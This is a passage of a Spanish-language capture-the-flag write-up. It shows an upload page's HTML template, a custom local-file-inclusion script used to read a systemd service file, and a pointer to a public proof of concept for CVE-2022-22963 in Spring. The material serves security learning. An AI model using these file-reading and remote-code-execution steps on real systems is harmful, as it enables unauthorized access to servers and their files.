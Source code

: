 ```bash
            </ul>
        </div>
    </nav>
</header>

<div class="container" align="center">

        <br>
        <h4 class="text-success">[[${message}]]</h4>
        <a class="text-success" th:if="${name != null}" th:href="@{'/show_image?img=' + ${name}}">View your Image</a>
        <br>
        <div class="mb-3">
            <form th:action="@{/upload}" method="post" enctype="multipart/form-data">
                <input class="form-control" name="file" type="file" id="formFile"><br />

                <input type="submit" value="Upload" class="btn btn-warning">
            </form>
        </div>

</div>


</body>
</html>#      
```

`Frank` corre eso

```bash
❯ ./lfi.sh -f /etc/systemd/system/webapp.service

[+] Este es el contenido del archivo /etc/systemd/system/webapp.service:

[Unit]
Description=Spring WEb APP
After=syslog.target

[Service]
User=frank
Group=frank
ExecStart=/usr/bin/java -Ddebug -jar /var/www/WebApp/target/spring-webapp.jar
Restart=always
StandardOutput=syslog
StandardError=syslog

[Install]
WantedBy=multi-user.target
```

Hay una dependencia de `spring` la cual es vulnerable <https://github.com/me2nuk/CVE-2022-22963> si ejecutamos el comando nos va a crear un directorio `pwned`
